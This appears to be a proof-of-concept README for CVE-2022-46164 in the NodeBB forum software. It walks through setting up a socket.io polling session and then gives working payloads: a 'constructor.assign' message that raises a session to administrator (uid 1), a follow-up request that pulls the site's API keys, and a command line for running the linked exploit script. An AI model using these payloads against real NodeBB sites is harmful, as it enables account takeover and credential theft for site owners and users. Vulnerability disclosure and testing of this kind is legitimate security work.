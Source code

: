 You can establish a polling based session with NodeBB by sending a HTTP `GET` request to a URL as shown below.  

```
/socket.io/?EIO=4&transport=polling&t=mGkgMb
```

The value of the `t` URL parameter is set to a random 6 character alpha string. In this case `mGkgMb`. This value changes with each new socket. 

The HTTP response from NodeBB will be contain similar to the following.

```
0{"sid":"cifBV2fveLLpUfAEAAAE","upgrades":[],"pingInterval":25000,"pingTimeout":20000,"maxPayload":1000000}
```

The `sid` value returned is sent as a `GET` parameter along with all future requests on the socket. In this example all further communication on this socket will go to the following URL.

```
/socket.io/?EIO=4&transport=polling&t=mGkgMb&sid=cifBV2fveLLpUfAEAAAE
```

When using the socket, all data that is sent **to** the server is provided in the body of `POST` requests. Data received **from** the server is obtained using `GET` requests. The server will return all messages in the polling queue for the client in its response to each `GET`. 

Unlike HTTP native `POST` requests, responses relating to the request are **not** returned in the response to the `POST`. You need to make a subsequent `GET` request to retrieve the response from the polling queue. What you will normally receive in response to a `POST` to the server is an `ok`.

The first message we want to send to the server to fully establish the session is a "handshake". Which is `40`, sent with a `POST` as discussed. Follow this up with a `GET` to retrieve the response to the "handshake". In this example this looked as follows.

```
40{"sid":"4eGiqjzlLKwLvS3QAAAF"} 42["checkSession",3] 42["setHostname","vm01"]
```

Now we can perform our privilege escalation. Send a `POST` like the following. There is no need for any follow up `GET` polling for this request, it will not generate a response.

```
421["constructor.assign",{"uid":1}]
```

Now we should have an admin session. Then send an admin request in a `POST`. The following will request API keys. Then issue a `GET` to retrieve the response.

```
422["admin.settings.get",{"hash": "core.api"}]
```

A simple Python POC to implement these operations is below. Running against a local NodeBB instance against an authenticated session would involve the following.

```
./poc.py -d 127.0.0.1:4567 -u 1 -n -c <cookie_value>
```

The code for the POC exploit can be found [here](https://github.com/stephenbradshaw/CVE-2022-46164-poc).
